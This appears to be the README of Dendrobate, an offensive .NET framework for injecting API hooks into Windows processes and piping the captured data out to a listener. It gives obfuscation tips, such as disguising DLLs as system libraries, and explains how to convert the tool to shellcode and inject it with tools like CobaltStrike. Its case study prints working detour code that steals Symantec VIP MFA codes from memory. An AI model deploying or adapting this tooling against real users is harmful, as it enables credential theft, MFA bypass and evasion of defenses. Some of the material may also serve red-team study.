





# Dendrobate

<a href="https://pathofexile.gamepedia.com/Dendrobate"></a>
Dendrobate is a framework that facilitates the development of payloads that hook unmanaged code through managed .NET code. To do this Dendrobate uses <a href="https://github.com/EasyHook/EasyHook">EasyHook</a> and packs the injected component, Dendron, using <a href="https://github.com/Fody/Fody">Fody</a> & <a href="https://github.com/Fody/Costura">Costura</a>. This is all done automatically so all you need to do when you compile Dendron is select the appropriate .NET version (only v3.5 and v4.5 are supported!).<br/><br/>

The counterpart to Dendron is Bates. Bates can receive data from applications hooked by Dendron passed using AES encryption over named pipes. Bates can also signal applications hooked by Dendron to un-hook.

## Index

  - [Why Make Dendrobate?](#why-make-dendrobate)
  - [Using Dendrobate](#using-dendrobate)
    - [BuildEnv](#buildenv)
    - [Dendron](#dendron)
    - [Bates](#bates)
    - [Named Pipe Communication](#named-pipe-communication)
  - [Operational Use](#operational-use)
    - [Deploying Dendrobate](#deploying-dendrobate)
    - [Extending Dendrobate](#extending-dendrobate)
  - [Case-Study: Defeating Local MFA](#case-study-defeating-local-mfa)
    - [Symantec VIP](#symantec-vip)
    - [Sensitive Data Discovery](#sensitive-data-discovery)
    - [POC Development](#poc-development)
    - [Preparing Dendron](#preparing-dendron)
    - [Profit](#profit)

## Why Make Dendrobate?

Sometimes on-the-fly hooking can be an operational requirement. In those cases I usually DIY a solution but by doing so sacrifice development time and opsec (to an extent). Dendrobate is a way to solve that issue more permanently.

## Using Dendrobate

### BuildEnv

BuildEnv is a versioned folder that lets you recompile the managed .NET binding for EasyHook so you can:

  - Change the name of the native EasyHook DLL the binding will try to import from.
    - Current config: **msvcp_win64.dll** & **msvcp_win32.dll**
  - Change the managed binding assembly name.
    - Current config: **oleaccrt**
  - Change the managed binding default namespace.
    - Current config: **oleaccrt**
  - Perform any other obfuscation you would like (e.g. change class / function names).

Consider also rebuilding both the native and managed libraries to change DLL metadata (e.g. `Product name`, `Copyright`,  etc.). Finally, it is also possible to strip and whole-sale include parts of the managed library directly into Dendron.

### Dendron

Dendron is the injected component of Dendrobate. All you really need to take care of here is make sure you put the EasyHook dependencies in the correct folders.

```
[Dendron]
   |_ [Costura32] --> NativeEasyHook32.dll
   |_ [Costura64] --> NativeEasyHook64.dll
   |_ [libs]
         |_ [x64]
         |    |_[35] --> ManagedEasyHook.dll
         |    |_[45] --> ManagedEasyHook.dll
         |_ [x86]
              |_[35] --> ManagedEasyHook.dll
              |_[45] --> ManagedEasyHook.dll
```

Dendron will pack your binary with the appropriate native and managed library based on your build setting (x86/x64 <-> NET35/45). If you want to make any changes to the dependencies in Dendron you just need to edit the appropriate properties in `Dendron.csproj` and `FodyWeavers.xml`.

Dendron can be used autonomously, for details on function hooking with EasyHook, please refer to the official documentation [here](http://easyhook.github.io/api/html/N_EasyHook.htm). However because you may want a convenient way to extract data from hooked applications I have included functionality to send encrypted data over a named pipe to the Dendrobate client component, Bates. All you need to do is:  (1) create a `HOOKDAT` object, (2) populate it's properties and (3) pass it to a helper function.

```c#
// Data Struct
//==========
[StructLayout(LayoutKind.Sequential)]
public struct HOOKDAT
{
    public UInt32 iType;     // 0 == String; 1 == Byte[];
    public String sHookFunc; // Function where the data originated
    public String sHookData;
    public Byte[] bHookData;
}

// Example Function Detour
//==========
static private IntPtr CreateFileWDetour(
        IntPtr lpFileName,
        UInt32 dwDesiredAccess,
        UInt32 dwShareMode,
        IntPtr lpSecurityAttributes,
        UInt32 dwCreationDisposition,
        UInt32 dwFlagsAndAttributes,
        IntPtr hTemplateFile)
{
    // Perform operations in the hooked function
    hDendron.HOOKDAT oHook = new hDendron.HOOKDAT();
    oHook.sHookFunc = "KernelBase!CreateFileW";
    oHook.iType = 0;
    oHook.sHookData = "lpFileName -> " + Marshal.PtrToStringUni(lpFileName);

    // Send data to pipe
    hDendron.passHookDataByPipe(oHook);
    
    // Return to real function
    return API.CreateFileW(lpFileName, dwDesiredAccess, dwShareMode, lpSecurityAttributes, dwCreationDisposition, dwFlagsAndAttributes, hTemplateFile);
}
```

### Bates

Bates is the client component of Dendrobate. It has some fairly simple functionality.

  - It can listen for encrypted comms from Dendron clients and has some basic code to print both plain text `String` data and to hexdump `Byte[]` data. These functions can be tailored to suite your specific needs.
  - It can send an encrypted magic value to Dendron clients to instruct them to un-hook all hooked functions. Note that this does not unload the manged or unmanaged code from the target, it only un-hooks.

You can see some sample `String` based comms below.

```
[...]

[+] Dendron client connected
    |_ Function  : KernelBase!CreateFileW
    |_ Data Type : String
    |_ Data      :

lpFileName -> C:\Users\b33f\AppData\Local\Microsoft\Windows\Explorer\thumbcache_256.db

[+] Dendron client connected
    |_ Function  : KernelBase!CreateFileW
    |_ Data Type : String
    |_ Data      :

lpFileName -> C:\Users\b33f\AppData\Roaming\Microsoft\Windows\Network Shortcuts\desktop.ini

[+] Dendron client connected
    |_ Function  : KernelBase!CreateFileW
    |_ Data Type : String
    |_ Data      :

lpFileName -> C:\Users\b33f\AppData\Roaming\Microsoft\Windows\Network Shortcuts

[...]
```

### Named Pipe Communication

Both Dendron and Bates have some global variables which govern named pipe communications and AES. You can change those to taste, just make sure you replicate the changes in both components.

```c#
// Globals
//-----------
public static String sDataPipe = "scerpcDSS";          // Sync in dendron & bates
public static String sControlPipe = "MsFetWid";        // Sync in dendron & bates
public static String sAESKey = "P8CuaPrgwBjunvZxJcgq"; // Sync in dendron & bates
```

Of course if you use Dendron autonomously you can prevent it from creating a control pipe and ignore the data pipe & AES key.

## Operational Use

### Deploying Dendrobate

Dendron generates an `exe`, you can turn this into PIC shellcode with [Donut](https://github.com/TheWover/donut) and use whichever shellcode injection tool you prefer to get it into the target (e.g. [UrbanBishop](https://github.com/FuzzySecurity/Sharp-Suite#urbanbishop) or CobaltStrike's shinject). For operational use, Bates can be executed using an `execute-assembly` style capability.

### Extending Dendrobate

Dendrobate is a template framework which, in most simple cases, will do the job just fine. However, sometimes you will need to do some heavy lifting in-process; for example to manipulate data coming through hooked functions or to search that data. Consider for example [this](https://www.mdsec.co.uk/2021/01/breaking-the-browser-a-tale-of-ipc-credentials-and-backdoors/) post by [@_batsec_](https://twitter.com/_batsec_) on hooking Chrome IPC.

Depending on performance considerations, you can pack additional libraries into either Dendron or Bates (for example [YaraSharp](https://github.com/stellarbear/YaraSharp)) and dynamically build out a tool to suite your specific use case.

## Case-Study: Defeating Local MFA

Multi-Factor authentication (MFA) can be a very powerful tool to keep user accounts and applications safe; even when account credentials have been compromised by malicious actors. There is no straight-forward way for an attacker to gain access to transient secrets which rotate frequently, or is there?

One commonly overlooked issue with MFA is that it cannot protect the user when the device (pc, phone, etc.) that receives the transient secret has been compromised. This may seem obvious but it is often overlooked as part of the threat model.

### Symantec VIP

In this case-study we will use Dendrobate to extract MFA tokens from [Symantec VIP](https://vip.symantec.com/) entirely in memory. It is important to stress that this **is not a vulnerability** in VIP it is merely an illustration of the issue described above.

When you launch VIP you are presented with a small UI, as show below.



### Sensitive Data Discovery

Reverse engineering the VIP binary (`VIPUIManager.exe`) is beyond the scope of this case-study. These types of applications, however, are typically small and can be analysed fairly quickly in a disassembler (such as [Ghidra](https://ghidra-sre.org/) or IDA) on a budget of one or two :coffee:'s. Note that a full understanding of the internal workings of the application is not required, only an idea of which functions may handle sensitive data.

You can also leverage dynamic analysis tools (such as [API Monitor](http://www.rohitab.com/apimonitor)) both for exploration as well as to confirm your findings. In this case specifically I determined that the application was using [SetWindowTextW](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-setwindowtextw) to update window controls with new MFA tokens each time they refreshed. I then validated that assumption in API monitor.



### POC Development

In these types of cases I like to develop prototype hooking code using [Fermion](https://github.com/FuzzySecurity/Fermion) which uses [Frida](https://frida.re/) under the hood. This intermediate development stage may require a lot of tweaking and many iterations to become reliable and efficient. Using Frida allows for rapid development without a costly `..-recompile-test-recompile-..` lifecycle.

In this case you can see the logic is fairly simple.


Any time `SetWindowTextW` is called and the `lpString` parameter is not empty then we know we either captured the MFA code or the ID. Since the MFA code is six characters in length we can easily distinguish between those two cases.

### Preparing Dendron

Porting this logic to Dendron is easy, you can see the code for the function detour below.

```c#
// Function Detours
//-----------
static private Boolean SetWindowTextWDetour(
        IntPtr hWnd,
        IntPtr lpString)
{
    String sControlString = String.Empty;
    try
    {
        sControlString = Marshal.PtrToStringUni(lpString);
        if (sControlString.Length > 0)
        {
            hDendron.HOOKDAT oHook = new hDendron.HOOKDAT();
            oHook.sHookFunc = "User32!SetWindowTextW";
            oHook.iType = 0;
            if (sControlString.Length == 6)
            {
                oHook.sHookData = "[+] Security Code : " + sControlString;
            } else if (sControlString.Length > 6)
            {
                oHook.sHookData = "[+] Credential ID : " + sControlString;
            }
            
            // Send data to pipe
            hDendron.passHookDataByPipe(oHook);
        }
    } catch { }
    
    // Return to real function
    return API.SetWindowTextW(hWnd, lpString);
}
```

Once implemented we have to compile Dendron to match the architecture of the target application. In this case `VIPUIManager.exe` is `x86` so we compile a 32-bit version of Dendron. Finally we turn Dendron into shellcode using Donut.



### Profit

All that remains is to inject Dendron into `VIPUIManager.exe` and execute Bates to receive the MFA token from memory :fire::skull:¯\\_(ツ)_/¯..


